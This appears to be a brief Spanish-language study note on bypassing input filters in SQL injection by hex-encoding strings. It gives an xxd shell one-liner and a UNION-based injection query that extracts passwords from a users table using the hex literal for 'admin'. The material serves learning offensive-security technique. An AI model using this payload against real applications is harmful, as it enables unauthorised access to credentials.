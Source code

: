 Ciertas configuraciones que impiden que ingreses un [[string]], deberíamos pasar el valos a [[hexagesimal]]
---
por ejemplo si tenemos que hacer un sql injection con el string admin, pero la página no nos permite introducir la cadena en texto claro, primer lo dumpeamos
```
echo "admin" | tr -d '\n' | xxd -ps
```
Para inyectarlo en sql le agregamos un 0x primero ahora en el [[SQL injection]] haríamos algo así: 
```
select password,subscription from users where username = 'admin' union select 1,password from users where username = 0x61646d696e;-- -';
```